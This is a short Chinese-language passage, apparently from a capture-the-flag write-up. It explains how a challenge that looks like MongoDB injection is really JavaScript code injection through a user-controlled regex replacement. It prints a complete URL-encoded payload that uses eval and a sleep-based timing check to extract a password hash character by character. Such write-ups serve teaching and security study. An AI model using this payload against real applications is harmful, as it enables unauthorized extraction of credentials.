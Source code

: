 ```
});
```

很容易就能看出来核心代码，就是后面一部分

初看到这个题目其实很容易歪楼，很容易把问题想到mongdb注入上，实际上题目是一个代码注入。

因为req.body是我们发送的请求，那么我们就可以控制正则表达式来替换内容，通过合理的正则，我们可以替换为对`this.password`的操作，然后通过js代码执行来获取数据。

这是我们的最终payload
```
|#|=&|this.*"\)|=&|==|[]=%7C%7Ceval(&%7C%22%22+%5C%5B%22%7C=a&%7Ca%22%7C=%2B&%7C%22%2B%7C=&%7C%22%22%5C%5D%2b%7C=aaaa&%7Caaaa%22%7C=%2B&%7C%5C)%7B%7C%5B%5D=bbb).match(/^13fc892df79a86494792e14dcbef252a'+i+'.*/)){sleep(1000);}else{return%20&|\["|=&|""b|=%2b&|"bb|=&|return(\s.*)*0|=11111
```

通过修改这里的match来匹配密码，如果为真则sleep，通过这样的方式，我们成功把代码注入改成了一个盲注，后面就很简单了。



  [1]: http://static.zybuluo.com/LoRexxar/wfir4flmnno2knv9b5h21ibg/image.png

